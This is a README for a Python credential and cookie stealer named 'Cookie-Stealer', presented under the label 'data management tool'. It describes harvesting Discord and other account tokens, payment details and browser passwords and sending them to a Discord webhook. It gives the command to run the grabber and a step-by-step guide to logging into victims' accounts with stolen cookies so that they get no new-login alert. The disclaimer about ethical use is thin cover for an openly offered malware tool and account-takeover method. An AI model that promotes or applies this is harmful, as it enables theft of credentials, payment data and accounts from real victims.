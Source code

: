 # Cookie-Stealer
Introducing my data management tool made in Python that efficiently collects user information from popular websites like Discord, Twitter, Instagram, and Netflix.
This versatile tool extracts valuable data, including account tokens, payment details, and browser passwords. It organizes the information neatly into tables and sends it to a Discord webhook for easy management. While showcasing Python's automation capabilities, it's crucial to use my tool responsibly and adhere to ethical programming practices.
# Requirements ⚡
Windows 10 OS only (win32, for x86, x86_64, and arm64 architectures)
Python 3.x (python 3.9 used for the project.)
Modules: $ pip install -r requirements.txt
# How to use ? ❄
You can also run the program by giving several arguments (the webhook(s) link(s)):

py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
🍪Cookies
# What are cookies ?
Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

# What are cookies used for ?
Websites use HTTP cookies to streamline your web experiences. Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page. Making cookies an important a part of the internet experience.

# Security breach with cookies
Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it locally to remember the “name-value pair” that identifies you.

⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a new connexion detected. The target don't know that you are connected to the account because the server think it's him !

☢ This reveals major security breaches in general websites and social networks ! ☢

# How to bypass websites with cookies ?
So to use cookies to log into the victim account, you must have a cookies extension. I recommand Cookie-Editor. To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website. After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.
